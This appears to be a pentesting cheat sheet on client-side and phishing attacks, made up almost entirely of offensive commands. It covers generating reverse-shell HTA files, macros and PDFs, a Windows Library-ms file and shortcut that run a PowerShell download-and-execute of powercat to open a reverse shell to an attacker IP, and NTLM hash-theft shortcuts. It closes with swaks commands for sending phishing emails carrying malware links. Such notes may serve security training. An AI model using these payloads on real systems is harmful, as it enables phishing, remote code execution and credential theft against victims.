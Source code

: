 # 🎣 Client-Side Attacks

## Information Gathering

```shell
exiftool <file>
canarytokens.com # generate a fake url to collect victim data
```

## Attacks

> [evil_macro.py](https://github.com/rodolfomarianocy/Evil-Macro/)

> [malicious-pdf.py](https://github.com/jonaslejon/malicious-pdf)

```shell
# create a malicious HTA with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o file.hta

# generate a malicious macro for a reverse shell in powershell using base64 for .doc
python evil_macro.py -l <ip> -p <port> -o macro.txt

# generate a malicious PDF file
python3 malicious-pdf.py burp-collaborator-url
```

### Windows Library

In Windows, create a file **config.Library-ms** and put the attack IP in the url and save it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.152</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Now create a shortcut called **install** with the attack machine IP:

```shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.152:3333/powercat.ps1'); powercat -c 192.168.45.152 -p 4444 -e powershell"
```

Transfer them to to the attack machine, start a webdav server to serve the shortcut, a python http server to serve the powercat script and a listener to receive the reverse shell and send the email.

### Create shortcuts

#### Windows

```ps
$LnkFile = "C:\users\<user>\desktop\Services.lnk"
PS C:\> $WshShell = New-Object -ComObject WScript.Shell
PS C:\> $Shortcut = $WshShell.CreateShortcut($LnkFile)
PS C:\> $Shortcut.TargetPath = "\\192.168.45.191\test\trick.bat"
PS C:\> $Shortcut.Save()
```

#### Linux

> [ntlm_theft.py](https://github.com/Greenwolf/ntlm_theft)

```shell
python ntlm_theft/ntlm_theft.py --g lnk -s 192.168.45.191 -f Services
```

### Sending Emails

```shell
swaks -t <VICTIM_EMAIL> -f <YOUR_FAKE_EMAIL> --server <SMTP_EMAIL> --body 'click me http://<YOUR_IP>/<MALWARE>' --header "Subject: Important" --add-header "Really: 1.0" --add-header "Content-Type: text/html"  [--attach <ATTACHED_FILE>]

sendEmail -t nico@megabank.com -u open -m yes -a yes.rtf -s 10.10.10.77 -f user@megabank.com
```
